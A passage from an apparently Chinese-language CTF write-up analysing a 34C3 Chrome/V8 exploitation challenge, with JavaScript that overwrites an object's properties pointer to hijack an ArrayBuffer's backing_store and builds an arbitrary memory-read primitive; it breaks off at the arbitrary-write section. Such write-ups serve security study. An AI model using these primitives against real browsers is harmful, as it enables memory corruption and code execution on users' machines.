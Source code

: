 ```javascript
gc();

var data_buf_addr = addrOf(data_buf);
var victim = {inline:42};
victim.offset0 = {};
victim.offset8 = {};
victim.offset16 = {};

overwrite_p(victim, i2f(data_buf_addr));

var view_buf = new ArrayBuffer(200);
victim.offset16 = view_buf;
```

而properties 指针指向非数字索引属性存储的数据，因此当对非数字索引的属性进行修改时，v8会通过properties来寻找目标属性进行修改。以victim对象为例，victim.offset0，victim.offset8，victim.offset16分别存储在properties地址+0x10，+0x18，+0x20处：

![image-20200806142547013](..\image\2020-08-05-34c3ctf-chrome-pwn分析\7.png)

所以当victim->properties被覆盖成data_buf的地址时，此时victim.offset16对应着data_buf->backing_store，可以修改victim.offset16进而修改data_buf->backing_store。

### （3）构造任意读写原语

讲道理，已经能修改data_buf->backing_store了，就很方便进行任意读写了，但是由于下面一步查找wasm_function 地址，要通过data_buf->map->instance descriptors查找，所以data_buf->backing_store要填充data_buf本身的地址，这一步在调试过程中发现无法成功（具体原因不清楚），所以需要申请另一个ArrayBuffer view_buf，通过view_buf->backing_store进行任意读写。

```javascript
var view_buf = new ArrayBuffer(200);
victim.offset16 = view_buf;

var data_view = new DataView(data_buf);

function dataview_read64(addr)
{
	data_view.setFloat64(31, i2f(addr), true);
	var view_view = new DataView(view_buf);
	return f2i(view_view.getFloat64(0, true));
}

//----- arbitrary write
```